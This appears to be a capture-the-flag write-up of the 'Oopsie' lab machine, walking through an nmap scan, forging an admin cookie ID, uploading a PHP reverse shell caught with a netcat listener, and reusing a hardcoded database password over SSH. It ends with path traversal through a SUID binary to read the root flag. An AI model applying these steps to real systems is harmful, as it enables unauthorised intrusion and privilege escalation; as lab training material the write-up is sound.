



# Oopsie

First, we conduct an Nmap scan:

```
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap -sS -sV -Pn -p- 10.129.95.191                        
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org) ) at 2026-06-12 06:27 EDT
Nmap scan report for 10.129.95.191
Host is up (0.028s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
Nmap done: 1 IP address (1 host up) scanned in 29.05 seconds
```

Next, we head to the webpage. Once we inspect the page's source code, we can see an interesting directory named `/cdn-cgi/login`.



Once we navigate to this directory, we are presented with a login panel:


We can log in as a guest. When we head to the "Uploads" section, we encounter a notice stating: "This action require super admin rights." When we intercept the requests to the website with Burp Suite, we can see that there is a cookie attached to each request containing "user" and "role" fields.



We do not know the user ID for the admin account, but when we navigate to the "Account" section on the website, we notice an interesting query string parameter: `id=2`. When we decrement the ID parameter to 1, we are presented with the admin account record and its corresponding ID value, which is 34322. Now that we know the admin's account ID, we can intercept the request with Burp Suite and replace our guest ID value with the admin's ID value. Doing this grants us access to the upload panel.



Now we can upload a PHP reverse shell, which is located at `/usr/share/webshells/php/php-reverse-shell.php` on our Kali machine. After uploading the reverse shell, we start a netcat listener on our host and trigger the payload by accessing `/uploads/php-reverse-shell.php`:

```
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.15.228] from (UNKNOWN) [10.129.41.27] 36944
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 20:32:06 up 18 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
oopsie
$ 
```

Now we can upgrade our shell using Python:

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

When we navigate to `/var/www/html/cdn-cgi/login` on the Oopsie host, we spot an interesting file called `db.php`. Reading it reveals a hardcoded password for the user `robert`:

```
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

We can try using these credentials to log in over SSH:

```
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh robert@10.129.41.27                           
The authenticity of host '10.129.41.27 (10.129.41.27)' can't be established.
ED25519 key fingerprint is SHA256:IzSXDs9dqcYA25jc85qIroMg43bjBJ8DEbPHmAEr8Nc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.41.27' (ED25519) to the list of known hosts.
robert@10.129.41.27's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  [https://help.ubuntu.com](https://help.ubuntu.com)
 * Management:     [https://landscape.canonical.com](https://landscape.canonical.com)
 * Support:        [https://ubuntu.com/advantage](https://ubuntu.com/advantage)

  System information as of Fri Jun 12 20:46:26 UTC 2026

  System load:  0.0               Processes:             117
  Usage of /:   40.5% of 6.76GB   Users logged in:       0
  Memory usage: 9%                IP address for ens160: 10.129.41.27
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     [https://ubuntu.com/livepatch](https://ubuntu.com/livepatch)

275 packages can be updated.
222 updates are security updates.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Sat Jan 25 10:20:16 2020 from 172.16.118.129
robert@oopsie:~$ 
```

Now we can read the user flag located in Robert's home directory:

```
robert@oopsie:~$ ls
user.txt
robert@oopsie:~$ cat user.txt
f2c74ee8db7983851ab2a96a44eb7981
robert@oopsie:~$ 
```

If we check our group memberships, we notice an unusual group named `bugtracker`:

```
robert@oopsie:~$ id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
robert@oopsie:~$ 
```

We can search for files owned by this group using the `find` command:

```
robert@oopsie:~$ find / -group bugtracker 2>/dev/null
/usr/bin/bugtracker
robert@oopsie:~$ 
```

When we inspect the file permissions, we can see that it has the SUID bit set:

```
robert@oopsie:~$ stat /usr/bin/bugtracker
  File: /usr/bin/bugtracker
  Size: 8792            Blocks: 24         IO Block: 4096   regular file
Device: 803h/2051d      Inode: 264151      Links: 1
Access: (4754/-rwsr-xr--)  Uid: (    0/    root)   Gid: ( 1001/bugtracker)
Access: 2026-06-13 10:35:04.092778348 +0000
Modify: 2020-01-25 10:14:12.305946100 +0000
Change: 2020-01-25 10:15:25.086530348 +0000
 Birth: -
robert@oopsie:~$ 
```

Next, when we try executing the file and type some random characters, we can observe that the `cat` command is being utilized by the binary to read files located at `/root/reports/(our_input)`:

```
robert@oopsie:~$ /usr/bin/bugtracker 

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: dfahfqrh23
---------------

cat: /root/reports/dfahfqrh23: No such file or directory

robert@oopsie:~$ 
```

We can exploit this functionality via path traversal to read the root flag:

```
robert@oopsie:~$ /usr/bin/bugtracker 

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ../../../../../root/root.txt
---------------

af13b0bee69f8a877c3faf667f7beacf

*** stack smashing detected ***: <unknown> terminated
Aborted (core dumped)
robert@oopsie:~$ 
```